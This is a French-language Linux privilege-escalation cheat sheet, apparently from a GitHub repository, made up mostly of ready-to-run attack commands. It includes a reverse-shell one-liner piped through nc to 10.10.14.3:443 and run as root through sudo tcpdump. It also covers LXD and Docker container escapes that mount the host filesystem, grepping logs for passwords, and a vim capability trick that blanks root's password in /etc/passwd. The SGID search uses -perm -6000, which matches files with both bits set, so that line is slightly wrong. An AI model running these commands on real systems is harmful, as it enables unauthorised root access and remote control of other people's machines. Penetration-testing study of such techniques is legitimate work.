 ### SUID/SGID Binaries
> Chercher des binaires avec bit SUID/SGID pour exécuter avec les privilèges du propriétaire

```bash
# Trouver les binaires SUID
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Trouver les binaires SGID
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
### Sudo Rights Abuse
> Exploiter les droits sudo mal configurés

```bash
# Vérifier les droits sudo
sudo -l

# Exemple: exploiter tcpdump avec sudo
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f" > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
### Privileged Groups
> Exploiter l'appartenance à des groupes privilégiés
#### LXC/LXD Group
```bash
# Vérifier si on est dans le groupe LXD
id

# Initialiser LXD
lxd init

# Importer une image Alpine
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

# Créer un conteneur privilégié
lxc init alpine r00t -c security.privileged=true

# Monter le système de fichiers hôte
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

# Démarrer le conteneur et obtenir un shell
lxc start r00t
lxc exec r00t /bin/sh
```
#### Docker Group
```bash
# Monter le système de fichiers hôte dans un conteneur Docker
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```
#### ADM Group
```bash
# Lire les logs pour trouver des informations sensibles
find /var/log -type f -exec grep -l "password" {} \;
```
### Capabilities
> Exploiter les capabilities Linux mal configurées

```bash
# Trouver les binaires avec capabilities
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; 2>/dev/null

# Exploiter vim avec cap_dac_override
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
su root # Sans mot de passe
```
